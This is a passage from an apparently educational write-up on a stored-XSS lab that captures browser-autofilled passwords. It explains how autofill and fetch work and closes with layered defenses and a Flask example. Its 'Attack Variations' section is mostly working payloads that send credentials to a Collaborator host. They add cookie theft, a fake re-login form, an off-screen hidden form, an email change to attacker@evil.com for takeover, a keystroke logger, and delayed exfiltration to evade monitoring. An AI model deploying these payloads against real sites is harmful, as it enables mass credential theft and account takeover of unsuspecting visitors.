├── Encrypted storage
└── Generally secure! ✓

BUT they can be abused:

How autofill detection works:
Browser scans HTML for:
1. <input type="password">
2. <input name="username"> or name="email"
3. Nearby <form> element (optional)

If detected:
         ↓
Check domain: "Do I have saved password for this domain?"
         ↓
If yes: Autofill both username and password! ✓

The problem:
└── Browser doesn't verify:
    ├── Is this the real login form?
    ├── Is this form visible to user?
    ├── Is this form legitimate?
    └── Is this form from XSS? ⚠️

Attack scenario:
Attacker injects:
<input name=username>
<input type=password>

Browser thinks:
"These look like login fields!"
         ↓
"I have saved credentials!"
         ↓
"Let me autofill!"
         ↓
Fills attacker's fake fields! 💥

Browser doesn't know:
├── Form was injected by XSS
├── Form is controlled by attacker
├── Form will exfiltrate credentials
└── It's not the real login! ⚠️

This is a fundamental issue with autofill:
└── Based on HTML patterns
    └── Not based on context or trust
        └── Can be abused via injection! 💥
```

### **The Power of Stored XSS**

```js
Why stored XSS is more dangerous than reflected:

Reflected XSS:
├── Attacker sends malicious link
├── Victim must click link
├── Executes once per click
├── Requires social engineering
└── Limited impact

Stored XSS:
├── Attacker posts once
├── Affects ALL visitors
├── Executes automatically
├── No user interaction
└── Maximum impact! 💥

Comparison:

Reflected XSS attack:
1. Craft malicious URL
2. Send to victim (email, message)
3. Victim must click
4. Payload executes
5. Affects: 1 victim per click

Stored XSS attack:
1. Post malicious comment
2. Wait for visitors
3. Automatic execution
4. Payload runs for each visitor
5. Affects: ALL visitors! 💥

Real-world impact:

If website has 10,000 daily visitors:
Reflected XSS → Affects: Specific targets you can trick
Stored XSS → Affects: All 10,000 visitors! 💀

Why stored XSS is powerful:
✅ Persistent attack
✅ Fire-and-forget
✅ Affects multiple victims
✅ No per-victim effort
✅ Scales automatically
✅ Long-term compromise

Applications:
├── Mass credential theft
├── Session hijacking campaigns
├── Malware distribution
├── Defacement
├── Cryptojacking
└── Any mass exploitation! 💥
```

### **Event Handlers and Timing**

```js
Understanding JavaScript event handlers:

Common events:
├── onclick → User clicks element
├── onmouseover → Mouse enters element
├── onload → Element finishes loading
├── onchange → Input value changes
├── onfocus → Element receives focus
└── onblur → Element loses focus

For this attack, we use: onchange

Why onchange is perfect:

Other options considered:

Option 1: onfocus
<input type=password onfocus="steal()">
Problem: Only triggers when user clicks field
Result: ❌ No automatic execution

Option 2: onload
<input type=password onload="steal()">
Problem: Input fields don't have onload event
Result: ❌ Doesn't work

Option 3: onclick
<input type=password onclick="steal()">
Problem: Only triggers when user clicks
Result: ❌ Requires user interaction

Option 4: onchange ✓
<input type=password onchange="steal()">
Perfect: Triggers when value changes
Autofill = value change!
Result: ✅ Automatic execution!

Timing sequence:

1. Page loads [0ms]
   → HTML parsed
   → DOM constructed
   
2. Browser scans page [~10ms]
   → Detects password field
   → Checks saved credentials
   
3. Autofill happens [~50ms]
   → Username field: "" → "administrator"
   → Password field: "" → "s3cr3tp@ssw0rd"
   → Value changed!
   
4. onchange fires [~51ms]
   → JavaScript executes
   → fetch() called
   
5. Request sent [~52ms]
   → POST to Collaborator
   → Credentials exfiltrated!

Total time: ~50 milliseconds!
└── Faster than user can blink! 💥

The victim never sees:
├── Password being filled
├── JavaScript executing
├── Request being sent
└── Credentials being stolen! ⚠️
```

### **Fetch API and CORS**

```js
Understanding the fetch() API:

What is fetch():
├── Modern JavaScript API
├── Makes HTTP requests
├── Promise-based
├── Replaces XMLHttpRequest
└── Clean syntax! ✓

Basic fetch usage:
fetch('https://api.example.com/data')
  .then(response => response.json())
  .then(data => console.log(data));

For our attack:
fetch('https://COLLABORATOR', {
  method: 'POST',
  mode: 'no-cors',
  body: 'username:password'
});

Key parameters explained:

1. URL (first argument):
fetch('https://abc123.burpcollaborator.net')
└── Destination for the request

2. method: 'POST'
- HTTP method to use
- POST sends data in body
- Alternative: GET (data in URL)
- We use POST for credential data

3. mode: 'no-cors'
- CRITICAL for cross-origin requests!
- Bypasses CORS restrictions
- Allows request to different domain
- Without this: Request would fail! ⚠️

Understanding CORS:

What is CORS:
└── Cross-Origin Resource Sharing
    └── Security mechanism in browsers
        └── Prevents scripts from accessing different domains

Normal CORS flow:
Browser: "Can I access different-domain.com?"
         ↓
Browser sends preflight request:
OPTIONS /api HTTP/1.1
Host: different-domain.com
Origin: https://victim-site.com
         ↓
Server responds with CORS headers:
Access-Control-Allow-Origin: *
         ↓
Browser: "Allowed! Proceeding..."
         ↓
Main request sent

With mode: 'no-cors':
Browser: "I'll send the request anyway"
         ↓
No preflight check
         ↓
Request sent immediately
         ↓
Response is "opaque" (can't read it)
         ↓
But we don't care about response! ✓

Why no-cors works for us:
✓ We only want to SEND data
✓ We don't need to READ response
✓ Collaborator receives the data
✓ We can poll Collaborator separately
✓ Perfect for exfiltration! ✓

Alternative: XMLHttpRequest
var xhr = new XMLHttpRequest();
xhr.open('POST', 'https://COLLABORATOR', true);
xhr.send('username:password');

But fetch() is better because:
✅ Cleaner syntax
✅ Promise-based
✅ More modern
✅ Better error handling
✅ Easier to use! ✓
```

### **Credential Format and Parsing**

```js
Why we use "username:password" format:

Format: username.value+':'+this.value
Result: "administrator:s3cr3tp@ssw0rd"

Advantages:
✅ Simple and clear
✅ Easy to parse
✅ Single line
✅ Standard convention
✅ Human readable

Parsing in attacker's logs:
Received: administrator:s3cr3tp@ssw0rd

Split by colon:
parts = "administrator:s3cr3tp@ssw0rd".split(':')
parts[0] = "administrator"
parts[1] = "s3cr3tp@ssw0rd"

Alternative formats considered:

Option 1: JSON
body: JSON.stringify({
  username: username.value,
  password: this.value
})
Result: {"username":"administrator","password":"s3cr3tp@ssw0rd"}
Pros: Structured, explicit
Cons: More verbose, requires parsing

Option 2: URL encoding
body: 'username='+username.value+'&password='+this.value
Result: username=administrator&password=s3cr3tp@ssw0rd
Pros: Standard form format
Cons: Longer, needs decoding

Option 3: Space separated
body: username.value+' '+this.value
Result: administrator s3cr3tp@ssw0rd
Pros: Simple
Cons: Ambiguous if username/password has spaces

Option 4: Colon separated ✓
body: username.value+':'+this.value
Result: administrator:s3cr3tp@ssw0rd
Pros: Simple, clear, standard
Cons: Breaks if password contains ':'
Best choice! ✓

Edge case handling:

What if password contains colon?
Password: "my:pass:word"
Result: "administrator:my:pass:word"

Parsing:
parts = result.split(':')
parts[0] = "administrator"
parts[1] = "my"
parts[2] = "pass"
parts[3] = "word"

Solution:
parts = result.split(':', 2)
parts[0] = "administrator"
parts[1] = "my:pass:word"
OR
username = parts[0]
password = parts.slice(1).join(':')

Better: Use a unique delimiter
body: username.value+'|||'+this.value
Result: administrator|||my:pass:word
Easy to split! ✓
```

---

## 🚀 **Attack Variations**

### **Variation 1: Enhanced Payload with Multiple Credentials**

```html
Enhanced payload that captures credentials AND session token:

<input name=username id=username>
<input type=password name=password onchange="if(this.value.length){
fetch('https://BURP-COLLABORATOR',{
  method:'POST',
  mode:'no-cors',
  body:'user:'+username.value+'|pass:'+this.value+'|cookie:'+document.cookie
})
}">

What this captures:
├── Username
├── Password
└── Session cookie! 💥

Exfiltrated data format:
user:administrator|pass:s3cr3tp@ssw0rd|cookie:session=abc123xyz

Impact:
✅ Complete account access
✅ Can bypass 2FA (session already established)
✅ Multiple attack vectors
✅ Maximum data theft! 💀
```

---

### **Variation 2: Visible Fake Login Form**

```html
More sophisticated payload with styled form:

<h3>Session Expired - Please Log In Again</h3>
<form>
  <label>Username:</label><br>
  <input name=username id=username style="width:200px;padding:5px;"><br>
  <label>Password:</label><br>
  <input type=password name=password style="width:200px;padding:5px;" onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR',{method:'POST',mode:'no-cors',body:username.value+':'+this.value})"><br>
</form>

Why this works better:
✅ Looks like legitimate login
✅ Social engineering element
✅ User might manually enter if autofill fails
✅ More convincing
✅ Dual attack vector (autofill + manual) ✓

Victim sees:
┌──────────────────────────────┐
│ Session Expired - Please Log │
│ In Again                      │
│                              │
│ Username:                     │
│ [                    ]        │
│                              │
│ Password:                     │
│ [••••••••••••]                │
└──────────────────────────────┘

Attack flow:
1. Autofill triggers → Credentials stolen ✓
2. If autofill fails → User types → Stolen again ✓
3. Double chances! 💥
```

---

### **Variation 3: Multi-Field Capture**

```html
Capture even more information:

<input name=username id=username>
<input name=email id=email>
<input type=password name=password onchange="if(this.value.length){
var data = {
  user: username.value,
  pass: this.value,
  email: email.value,
  url: window.location.href,
  time: new Date().toISOString()
};
fetch('https://BURP-COLLABORATOR',{
  method:'POST',
  mode:'no-cors',
  body:JSON.stringify(data)
})
}">

Captured data includes:
├── Username: administrator
├── Password: s3cr3tp@ssw0rd
├── Email: admin@example.com
├── URL: https://victim-site.com/post/1
├── Timestamp: 2025-02-08T12:34:56.789Z
└── Complete context! ✓

Exfiltrated JSON:
{
  "user":"administrator",
  "pass":"s3cr3tp@ssw0rd",
  "email":"admin@example.com",
  "url":"https://victim-site.com/post/1",
  "time":"2025-02-08T12:34:56.789Z"
}

Benefits:
✅ Rich metadata
✅ Easier tracking
✅ Context for each victim
✅ Professional reconnaissance! 💥
```

---

### **Variation 4: Bypassing Autofill Detection**

```html
Some browsers are getting smarter about detecting fake forms.
Here's an evasion technique:

<div style="position:absolute;left:-9999px;top:-9999px;">
  <input name=username id=username>
  <input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR',{method:'POST',mode:'no-cors',body:username.value+':'+this.value})">
</div>

Why off-screen:
✅ Invisible to user
✅ Still detectable by browser autofill
✅ More stealthy
✅ Harder to spot
✅ Professional technique ✓

CSS explanation:
position:absolute → Position relative to viewport
left:-9999px → Move 9999 pixels left (off screen)
top:-9999px → Move 9999 pixels up (off screen)
Result: Elements exist but not visible ✓

Browser still autofills because:
├── Elements exist in DOM
├── Have correct attributes
├── Browser doesn't check visibility
└── Autofill works regardless! ✓
```

---

### **Variation 5: Email Change Attack**

```html
Instead of just stealing credentials, change the victim's email:

<input name=username id=username>
<input type=password name=password onchange="if(this.value.length){
var csrf = document.getElementsByName('csrf')[0].value;
fetch('/my-account/change-email', {
  method: 'POST',
  headers: {'Content-Type': 'application/x-www-form-urlencoded'},
  body: 'email=attacker@evil.com&csrf='+csrf
}).then(()=>
  fetch('https://BURP-COLLABORATOR',{
    method:'POST',
    mode:'no-cors',
    body:username.value+':'+this.value
  })
)
}">

Attack sequence:
1. Capture autofilled credentials
2. Extract CSRF token from page
3. Change victim's email to attacker@evil.com
4. Exfiltrate credentials to Collaborator
5. Later: Use "forgot password" with new email
6. Complete account takeover! 💀

Impact:
✅ Changes victim's email
✅ Steals credentials
✅ Persistent access method
✅ Can recover account anytime
✅ Maximum damage! 💥
```

---

### **Variation 6: Keylogger Addition**

```html
Combine password capture with keylogger:

<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR',{method:'POST',mode:'no-cors',body:username.value+':'+this.value})">
<script>
document.addEventListener('keypress', function(e) {
  fetch('https://BURP-COLLABORATOR/key', {
    method:'POST',
    mode:'no-cors',
    body:'key:'+e.key
  });
});
</script>

Captures:
├── Autofilled passwords (instant)
└── Every keystroke (ongoing)

Benefits:
✅ Immediate password capture
✅ Long-term keystroke logging
✅ Captures typed data too
✅ Redundant attack vectors
✅ Maximum data collection! 💀
```

---

### **Variation 7: Delayed Exfiltration**

```html
Add delay to avoid detection:

<input name=username id=username>
<input type=password name=password onchange="if(this.value.length){
setTimeout(function(){
  fetch('https://BURP-COLLABORATOR',{
    method:'POST',
    mode:'no-cors',
    body:username.value+':'+this.value
  })
}, 5000)
}">

Why delay:
✅ Less suspicious network activity
✅ User might navigate away (hides in logs)
✅ Evades some monitoring
✅ Appears less coordinated
✅ Stealthier approach ✓

Execution timeline:
0ms → Autofill happens
10ms → onchange fires
10ms → setTimeout scheduled
5000ms → fetch() executes
5000ms → Credentials exfiltrated!

5-second delay gives:
├── Time for user to navigate away
├── Separates injection from exfiltration
├── Harder to correlate in logs
└── More professional! ✓
```

---
---

## 🛡️ **Defensive Measures**

---

### **How to Prevent This Attack**

```r
Defense Layer 1: Input Sanitization

✅ CORRECT - Sanitize user input:

function sanitize_html(input) {
    # Remove all HTML tags
    return strip_tags(input);
    
    # OR encode HTML entities
    return htmlspecialchars(input, ENT_QUOTES, 'UTF-8');
}

Example:
Input: <input name=username>
Output (strip_tags): 
Output (htmlspecialchars): &lt;input name=username&gt;

In HTML:
<p>&lt;input name=username&gt;</p>

Browser renders as text:
<input name=username>

NOT as HTML element! ✓

Defense Layer 2: Content Security Policy (CSP)

✅ SECURE - Implement CSP:

Content-Security-Policy: default-src 'self'; script-src 'self'

This prevents:
├── Inline JavaScript execution
├── External script loading
└── Event handlers (onclick, onchange, etc.)

Our attack payload:
<input onchange="fetch(...)">
                ↑
                └── Inline event handler

With CSP:
Browser: "CSP blocks inline event handlers!"
Result: onchange doesn't execute! ✓

Defense Layer 3: HTTPOnly Cookies

✅ SECURE - Set HTTPOnly flag:

Set-Cookie: session=abc123; HttpOnly; Secure

Effect:
├── JavaScript cannot access cookie
├── document.cookie returns empty
└── Session hijacking prevented! ✓

Our enhanced attack:
body:'cookie:'+document.cookie
              ↑
              └── Returns empty with HTTPOnly

Defense Layer 4: Disable Autofill

✅ Add autocomplete attribute:

<input type="password" name="password" autocomplete="off">

Effect:
└── Tells browser not to autofill
    └── Our attack fails! ✓

But note:
⚠️ Some browsers ignore autocomplete="off"
⚠️ Not 100% reliable
⚠️ Should be combined with other defenses

Defense Layer 5: Output Encoding

✅ CORRECT - Encode output based on context:

In HTML context:
htmlspecialchars($user_input, ENT_QUOTES, 'UTF-8')

In JavaScript context:
json_encode($user_input, JSON_HEX_TAG | JSON_HEX_AMP)

In URL context:
urlencode($user_input)

Context-aware encoding prevents XSS! ✓

Defense Layer 6: Template Engine

✅ Use auto-escaping template engines:

// React (auto-escapes by default)
<div>{userInput}</div>

// Vue.js (auto-escapes by default)
<div>{{ userInput }}</div>

// Handlebars (auto-escapes by default)
<div>{{userInput}}</div>

These frameworks:
├── Automatically escape output
├── Prevent XSS by default
├── Only allow unsafe HTML when explicit
└── Secure by design! ✓

Defense Layer 7: Input Validation

✅ Whitelist allowed characters:

function validate_comment(input) {
    # Allow only alphanumeric and basic punctuation
    if preg_match('/^[a-zA-Z0-9\s.,!?-]+$/', input):
        return true
    return false
}

This blocks:
✗ < > (HTML tags)
✗ " ' (Quote marks)
✗ & (HTML entities)
└── XSS payloads rejected! ✓

Defense Layer 8: Rate Limiting

✅ Limit comment submissions:

# Allow max 5 comments per hour per IP
if comments_in_last_hour(ip_address) >= 5:
    return "Rate limit exceeded"

Prevents:
├── Mass XSS payload injection
├── Automated attacks
└── Rapid exploitation! ✓

Defense Layer 9: Monitor and Alert

✅ Detect suspicious patterns:

# Alert on suspicious comment content
if '<input' in comment or 'fetch(' in comment:
    alert_security_team()
    block_submission()

Detects:
├── Common XSS payloads
├── Suspicious patterns
└── Attack attempts! ✓

Defense Layer 10: Education

✅ User awareness:

└── Don't save passwords in browser
    └── Use password manager (1Password, Bitwarden)
        └── They're more secure than browser autofill ✓

But note:
⚠️ Relying on users is not a defense
⚠️ Application must be secure
⚠️ Defense in depth required! ✓

Complete Defense Strategy:

Layer 1: Input sanitization ✓
Layer 2: Output encoding ✓
Layer 3: CSP headers ✓
Layer 4: HTTPOnly cookies ✓
Layer 5: Template engines ✓
Layer 6: Input validation ✓
Layer 7: Rate limiting ✓
Layer 8: Monitoring ✓

All layers together = Maximum security! 🛡️
```

### **Secure Code Example**

```python
# ✅ SECURE - Complete implementation

from flask import Flask, request, render_template_string, make_response
import html
import re

app = Flask(__name__)

# Secure template with auto-escaping
COMMENT_TEMPLATE = '''
<!DOCTYPE html>
<html>
<head>
    <meta http-equiv="Content-Security-Policy" 
          content="default-src 'self'; script-src 'self'; object-src 'none'">
    <title>Blog Post</title>
</head>
<body>
    <h1>Blog Post</h1>
    
    <div class="comments">
    
        <div class="comment">
            <strong>{{ comment.name }}</strong>
            <p>{{ comment.text }}</p>
        </div>
    
    </div>
    
    <form method="POST" action="/post/comment">
        <input type="text" name="comment" autocomplete="off">
        <input type="text" name="name" autocomplete="off">
        <input type="email" name="email" autocomplete="off">
        <button type="submit">Post Comment</button>
    </form>
</body>
</html>
'''

def sanitize_input(text, max_length=500):
    """
    Sanitize user input
    """
    # Limit length
    if len(text) > max_length:
        return None
    
    # Validate characters (whitelist)
    if not re.match(r'^[a-zA-Z0-9\s.,!?;:()\-\'\"@]+$', text):
        return None
    
    # HTML encode
    return html.escape(text, quote=True)

@app.route('/post/comment', methods=['POST'])
def post_comment():
    # Get inputs
    comment_text = request.form.get('comment', '')
    name = request.form.get('name', '')
    email = request.form.get('email', '')
    
    # Sanitize all inputs
    safe_comment = sanitize_input(comment_text)
    safe_name = sanitize_input(name)
    safe_email = sanitize_input(email)
    
    # Validate
    if not safe_comment or not safe_name:
        return "Invalid input", 400
    
    # Store in database (sanitized)
    # db.store_comment(safe_comment, safe_name, safe_email)
    
    return "Comment posted successfully", 200

# Set security headers
@app.after_request
def set_security_headers(response):
    response.headers['Content-Security-Policy'] = "default-src 'self'; script-src 'self'"
    response.headers['X-Content-Type-Options'] = 'nosniff'
    response.headers['X-Frame-Options'] = 'DENY'
    response.headers['X-XSS-Protection'] = '1; mode=block'
    
    # HTTPOnly cookies
    response.set_cookie('session', 'value', httponly=True, secure=True, samesite='Strict')
    
    return response

# Benefits of this implementation:
# ✅ Input sanitization (strips HTML)
# ✅ Output encoding (template auto-escapes)
# ✅ CSP headers (blocks inline scripts)
# ✅ HTTPOnly cookies (prevents theft)
# ✅ Input validation (whitelist)
# ✅ Length limits (prevents abuse)
# ✅ Security headers (defense in depth)
# ✅ autocomplete="off" (reduces autofill risk)

# Our attack would fail because:
# 1. Input sanitization removes <input> tags
# 2. CSP blocks inline event handlers
# 3. Output encoding displays as text
# 4. autocomplete reduces autofill
# 5. Multiple layers all working together! ✓
```

---
